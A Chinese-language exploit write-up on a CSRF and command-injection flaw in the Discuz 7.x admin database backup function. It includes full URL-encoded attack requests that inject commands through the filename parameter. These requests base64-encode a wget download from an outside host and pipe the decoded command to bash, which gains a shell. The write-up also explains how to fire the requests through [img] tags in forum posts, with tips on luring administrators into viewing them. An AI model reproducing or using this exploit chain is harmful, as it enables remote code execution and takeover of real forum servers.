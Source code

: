 ##<center>Discuz7.x csrf漏洞分析</center>

  之前看到wooyun上menmen519同学爆出的一个Discuz7.x csrf漏洞，但是看了下，没有深度分析和利用，我这里发表下自己的见解。
  
  在discuz7.X后台－>工具->数据库->备份 选项卡中，我们可以备份数据，这里有两次请求，第一个是post，里面有formhash字段进行cstf防御，  但是在第二次get请求中，没有防御，造成严重后果。
  
  在discuz中有全局变量注册的功能，这点大一点的程序都会有。这也是一个安全风险，即全局变量覆盖会进一步导致其他安全风险，但这次不是我们的重点。
  
  看操作：
  第一次post操作，创建分卷
  ![post](./pic/1.png)
  
  第二次get操作获取信息，并执行。
  
  ![post](./pic/2.png)
  
  在 admin/db.inc.php 文件中，写的是备份数据库的逻辑。在文件的第284行
      `	@shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($extendins == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $sqlcompat == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);`
      
  而这个$dumpfile变量我们是可控的，追踪$dumpfile，
  
      `$dumpfile = addslashes(dirname(dirname(__FILE__))).'/'.$backupfilename.'.sql';`
  追踪$backupfilename变量，可以看到$backupfilename过滤了 "/" 和 "." 号，为我们给我们getshell带来不便。
  
      `$backupfilename = './forumdata/'.$backupdir.'/'.str_replace(array('/', '\\', '.'), '', $filename);`
  其实这个这个filename变量就是我们get请求中的一个参数，但是这个$filename在前面是经过过滤的 
  
      `		if(!$filename || preg_match("/(\.)(exe|jsp|asp|aspx|cgi|fcgi|pl)(\.|$)/i", $filename)) {                                                
			cpmsg('database_export_filename_invalid', '', 'error');
		}
	`
  这里过滤了一些什么.exe, .jsp啊的后缀。这里不关心。我将代码输出并执行，方便我们fuzz，并不影响代码逻辑。
    
  ![code](./pic/3.png)
  
  可以看到，将 "." 过滤了，这样一来我们就不能直接echo内容到php文件了。
  
  那么如何执行到这里的shell_exec()函数呢， `if($operation == 'export') {`
  首先要进这个条件中，我们get中的`operation=export`  operation参数要为export，然后
  看到 ![if](./pic/4.png) 我们需要`method!=multivol` 那我们就随便写，或者置空。
  
  ![code2](./pic/5.png)
  
  可以看到已经执行并打印了，在Linux/windows下可以用 "&" 符号链接命令，不懂的可以自己测试或者看看代码执行方面的文章。
  `filename=151227_1& echo 111 > shell & xx`  需要url编码一下
  然后可以看到
  
  ![111](./pic/6.png)
  
  有的朋友可能就想直接echo一句话到PHP文件中了，但是之前我们看到时过滤了 "/" 和 "." 号的，我们如何绕过呢。 我在这里教给大家一个小技巧，我们可以将`wget http://xx.com/1.php` 命令进行base64编码，然后再让shell解码执行。

![base](./pic/7.png)

<pre>
	* 我们先写入一个base64编码的命令到一个文件中 echo xx > shell*
	* 再用命令将他读出病执行 base64 -D shell | bash 就可以getshell了*
</pre>
  1.将`wget http://fengxuan.com/test/info.php `编码d2dldCBodHRwOi8vZmVuZ3h1YW4uY29tL3Rlc3QvaW5mby5waHA=
  第一次请求 "admincp.php?action=db&operation=export&type=custom&saveto=server&filename=151227_1%26%20echo%20d2dldCBodHRwOi8vZmVuZ3h1YW4uY29tL3Rlc3QvaW5mby5waHA%3D%3E%20shell%20%26xx&method=sb&sizelimit=2048&volume=1&tableid=1&startfrom=0&extendins=0&sqlcharset=&sqlcompat=&exportsubmit=yes&usehex=1&usezip=0&sid=JS5q8R"
  
  第二次请求 "admincp.php?action=db&operation=export&type=custom&saveto=server&filename=151227_1%26%20%20base64%20-D%20shell%20%7C%20bash%20%26xx&method=sb&sizelimit=2048&volume=1&tableid=1&startfrom=0&extendins=0&sqlcharset=&sqlcompat=&exportsubmit=yes&usehex=1&usezip=0&sid=JS5q8R"
  执行代码
  
  ![info](./pic/8.png)
  
  
  而触发这些代码，你只要在前台发表帖子，然后插入两次网络图片，
  `[img]http://fengxuan.com/webapp/discuz72/admincp.php?action=db&operation=export&type=custom&saveto=server&filename=151227_1%26%20%20base64%20-D%20shell%20%7C%20bash%20%26xx&method=sb&sizelimit=2048&volume=1&tableid=1&startfrom=0&extendins=0&sqlcharset=&sqlcompat=&exportsubmit=yes&usehex=1&usezip=0&sid=JS5q8R[/img]`
 就可以了。或者使用xss，运用xsrf，也可以。(写个诱人标题和发些美女图片，肯定会看你的...:) )
 
 
   
  
  
  